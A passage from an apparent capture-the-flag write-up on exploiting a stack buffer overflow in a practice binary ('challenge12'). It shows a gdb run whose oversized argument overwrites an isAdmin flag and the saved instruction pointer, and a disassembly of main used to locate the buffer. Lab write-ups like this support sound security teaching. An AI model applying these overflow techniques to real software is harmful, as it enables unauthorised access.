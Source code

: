 Therefore, offset is 84 bytes.


### Overflow too far into SIP

Offset: 88

```
(gdb) run `python -c 'print "A" * 88 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 88 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007d3 in handleData ()
```


## Find buffer base address

Disassemble the main function:
```
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004007d4 <+0>:     push   %rbp
   0x00000000004007d5 <+1>:     mov    %rsp,%rbp
   0x00000000004007d8 <+4>:     sub    $0x10,%rsp
   0x00000000004007dc <+8>:     mov    %edi,-0x4(%rbp)
   0x00000000004007df <+11>:    mov    %rsi,-0x10(%rbp)
   0x00000000004007e3 <+15>:    cmpl   $0x3,-0x4(%rbp)
   0x00000000004007e7 <+19>:    je     0x40080c <main+56>
   0x00000000004007e9 <+21>:    mov    -0x10(%rbp),%rax
   0x00000000004007ed <+25>:    mov    (%rax),%rax
   0x00000000004007f0 <+28>:    mov    %rax,%rsi
   0x00000000004007f3 <+31>:    mov    $0x40099c,%edi
   0x00000000004007f8 <+36>:    mov    $0x0,%eax
   0x00000000004007fd <+41>:    callq  0x4005a0 <printf@plt>
   0x0000000000400802 <+46>:    mov    $0x0,%edi
   0x0000000000400807 <+51>:    callq  0x4005f0 <exit@plt>
   0x000000000040080c <+56>:    mov    -0x10(%rbp),%rax
   0x0000000000400810 <+60>:    add    $0x10,%rax
   0x0000000000400814 <+64>:    mov    (%rax),%rdx
   0x0000000000400817 <+67>:    mov    -0x10(%rbp),%rax
   0x000000000040081b <+71>:    add    $0x8,%rax
   0x000000000040081f <+75>:    mov    (%rax),%rax
   0x0000000000400822 <+78>:    mov    %rdx,%rsi
   0x0000000000400825 <+81>:    mov    %rax,%rdi
   0x0000000000400828 <+84>:    callq  0x40074f <handleData>
   0x000000000040082d <+89>:    mov    $0x0,%eax
   0x0000000000400832 <+94>:    leaveq
   0x0000000000400833 <+95>:    retq
End of assembler dump.
```
